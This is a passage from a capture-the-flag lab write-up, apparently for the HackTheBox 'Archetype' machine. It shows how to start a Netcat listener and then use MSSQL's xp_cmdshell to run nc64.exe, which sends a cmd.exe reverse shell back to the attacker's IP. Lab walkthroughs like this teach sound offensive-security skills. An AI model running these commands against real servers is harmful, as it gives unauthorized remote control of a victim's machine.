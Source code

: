We can see it worked:

![shell](./Screenshots/archetypeshell4.png)

Our file is successfully transferred.

### Netcat

Now is finally time to execute the `nc64.exe` file in our target system for the `reverse shell`. 

To do that we have to set up `Netcat` listener on our system.

Type in new tab:

```
nc -lvnp {port of your choice}
```

![shell](./Screenshots/archetypeshell5.png)

Now we can go back to `MSSQL` and execute:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {your tun0 ip address} {port of your choice}"
```

![shell](./Screenshots/archetypeshell6.png)

Let's look back at our `Netcat` listener. We can confirm our `reverse shell` works.

![shell](./Screenshots/archetypeshell7.png)
